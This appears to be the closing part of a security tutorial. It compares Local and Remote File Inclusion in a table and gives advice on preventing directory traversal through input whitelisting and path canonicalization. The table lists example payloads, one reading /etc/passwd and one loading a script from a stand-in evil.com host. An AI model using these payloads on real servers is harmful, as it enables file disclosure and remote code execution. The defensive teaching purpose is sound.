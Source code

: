 | **Feature**            | **LFI (Local File Inclusion)**                    | **RFI (Remote File Inclusion)**                 |
|------------------------|--------------------------------------------------|------------------------------------------------|
| **File Source**         | Local files on the server                        | Remote files from external URLs                |
| **Attack Method**       | Reads or executes local files                    | Loads and executes external scripts            |
| **Potential Impact**    | Information disclosure, code execution (if combined with log poisoning) | Remote Code Execution (RCE), full system compromise |
| **Example Payload**     | `vulnerable.php?page=/etc/passwd`                | `vulnerable.php?page=http://evil.com/payload.php` |
| **Works When**          | The server has important local files that can be accessed | `allow_url_include = On` (which allows remote scripts) |
| **Common Exploits**     | `/etc/passwd`, `php://filter`, `log poisoning`    | Hosting a malicious script remotely and executing it |


## How to Prevent a Directory Traversal Attack

The most effective way to prevent file path traversal vulnerabilities is to avoid passing user-supplied input to filesystem APIs altogether. Many application functions that do this can be rewritten to deliver the same behavior in a safer way.

If it is considered unavoidable to pass user-supplied input to filesystem APIs, then two layers of defense should be used together to prevent attacks:

- The application should validate the user input before processing it. Ideally, the validation should compare against a whitelist of permitted values. If that isn't possible for the required functionality, then the validation should verify that the input contains only permitted content, such as purely alphanumeric characters.
- After validating the supplied input, the application should append the input to the base directory and use a platform filesystem API to canonicalize the path. It should verify that the canonicalized path starts with the expected base directory.

So that will be all. Enjoy!

## Comments

{{< chat disqus_thread >}}


---
